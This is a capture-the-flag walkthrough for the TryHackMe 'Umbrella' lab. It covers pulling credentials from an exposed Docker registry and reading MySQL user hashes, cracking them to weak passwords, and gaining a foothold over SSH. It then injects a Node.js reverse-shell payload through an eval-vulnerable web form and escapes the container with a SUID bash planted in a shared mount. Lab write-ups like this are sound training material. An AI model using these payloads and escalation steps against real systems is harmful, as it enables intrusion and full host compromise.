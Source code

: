 # Umbrella

**Room Link:** [https://tryhackme.com/r/room/umbrella](https://tryhackme.com/r/room/umbrella)



## **Scans**

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (996).png" alt=""><figcaption></figcaption></figure>



Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (997).png" alt=""><figcaption></figcaption></figure>



## **TCP/5000 - Docker Registry**

**List repositories**

**Kali**

```
curl -s http://$VICTIM:5000/v2/_catalog
```

<figure><img src="../../.gitbook/assets/image (998).png" alt=""><figcaption></figcaption></figure>

**Get tags of a repository**

**Kali**

```
curl -s http://$VICTIM:5000/v2/umbrella/timetracking/tags/list
```

<figure><img src="../../.gitbook/assets/image (999).png" alt=""><figcaption></figcaption></figure>

**Get manifests**

Inside the manifest we find potential credentials

**Kali**

```
curl -s http://$VICTIM:5000/v2/umbrella/timetracking/manifests/latest
```

<figure><img src="../../.gitbook/assets/image (1000).png" alt=""><figcaption></figcaption></figure>

## **TCP/3306 - MySQL**

**Kali**

```
apt install mysql-client-core-5.7 
mysql -h $VICTIM -u root -p'Ng1-f3!Pe7-e5?Nf3xe5'
```

**Kali(mysql)**

```
show databases;
use timetracking;
show tables;
select * from users;
```

<figure><img src="../../.gitbook/assets/image (1001).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
wget https://gitlab.com/kalilinux/packages/hash-identifier/-/raw/kali/master/hash-id.py  
python3 hash-id.py 2ac9cb7dc02b3c0083eb70898e549b63
```

<figure><img src="../../.gitbook/assets/image (1002).png" alt=""><figcaption></figcaption></figure>

**hash.txt**

```
claire-r:2ac9cb7dc02b3c0083eb70898e549b63
chris-r:0d107d09f5bbe40cade3de5c71e9e9b7
jill-v:d5c0607301ad5d5c1528962a83992ac8
barry-b:4a04890400b5d7bac101baace5d7e994
```

**Kali**

```
john --format=raw-md5 hash.txt 
john --format=raw-md5 hash.txt --show
```

<figure><img src="../../.gitbook/assets/image (1003).png" alt=""><figcaption></figcaption></figure>

**output**

```
claire-r:Password1
chris-r:letmein
jill-v:sunshine1
```



## **TCP/22 - SSH**

**Kali**

```
ssh claire-r@$VICTIM
Password: Password1 
```

<figure><img src="../../.gitbook/assets/image (1006).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation&#x20;

In Claire's home directory we see the files that host the website. We can see the timeCalc uses the eval statement which is vulnerable.

**Victim**

```
cd /home/claire-r/timeTracker-src
cat app.js
```

<figure><img src="../../.gitbook/assets/image (1012).png" alt=""><figcaption></figcaption></figure>

### **TCP/80:443 - HTTP(s)**

**Kali**

```
nc -lvnp 1337
```

**Login**

```
Username: claire-r
Password:Password1
```

<figure><img src="../../.gitbook/assets/image (1004).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1007).png" alt=""><figcaption></figcaption></figure>

**Payload**

```
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(1337, "10.10.245.149", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

<figure><img src="../../.gitbook/assets/image (1008).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1009).png" alt=""><figcaption></figcaption></figure>

Full TTY Shell

```
script -qc /bin/bash /dev/null
ctrl + Z
stty raw -echo;fg
```

<figure><img src="../../.gitbook/assets/image (1010).png" alt=""><figcaption></figcaption></figure>

## Docker Breakout

**Exploit:** [https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)

### Privilege Escalation with 2 shells and host mount

If you have access as **root inside a container** that has some folder from the host mounted and you have **escaped as a non privileged user to the host** and have read access over the mounted folder. You can create a **bash suid file** in the **mounted folder** inside the **container** and **execute it from the host** to privesc.

**Victim(root)**

```
find / -name "tt.log"
cd /logs
cp /bin/bash . 
chown root:root bash
chmod 4777 bash
```

**Victim(claire-r)**

```
find / -name "tt.log"
cd /home/claire-r/timeTracker-src/logs
./bash -p 
```



<figure><img src="../../.gitbook/assets/image (1011).png" alt=""><figcaption></figcaption></figure>

